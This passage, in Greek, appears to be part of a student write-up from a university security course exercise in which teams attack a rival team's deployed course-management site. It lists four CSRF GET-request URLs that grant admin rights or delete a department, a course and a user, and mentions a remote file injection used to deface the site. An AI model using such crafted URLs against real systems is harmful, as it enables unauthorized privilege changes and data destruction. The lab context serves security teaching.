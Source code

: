 Συνειδητοποιήσαμε επίσης, πως υπάρχουν αρκετά <b>CSRF attack με get request</b>, τα οποία μπορούν να προκαλέσουν σημαντικές αλλαγές στην λειτουργία του site, εφόσον κλικάρει ο drunkadmin τα αντίστοιχα url. Μερικά παραδείγματα είναι τα ακόλουθα: <br>
* ```http://error-404.csec.chatzi.org/modules/user/user.php?giveAdmin=3``` : Δίνονται δικαιώματα διαχειριστή σε μάθημα στον user με id=3 (αν ο drunkadmin έχει κλικάρει σε μάθημα).
* ```http://error-404.csec.chatzi.org/modules/admin/addfaculte.php?a=2&c=5``` : Διαγράφεται το Tμήμα 5.
* ```http://error-404.csec.chatzi.org/modules/admin/delcours.php?c=TMA106&delete=yes``` : Διαγράφεται ένα μάθημα που δημιουργήσαμε.
* ```http://error-404.csec.chatzi.org/modules/admin/unreguser.php?u=9&c=&doit=yes``` : Διαγράφεται ο χρήστης Τζένιφερ Άνιστον.

### Remote File Injection (RFI)
Το συγκεκριμένο attack αναφέρεται προηγουμένως στον τρόπο που κάναμε deface το αντίπαλο site. 

#### Team TrojanPonies:
<i>by [KazakosVas](https://github.com/KazakosVas), [mansstiv](https://github.com/mansstiv) </i>


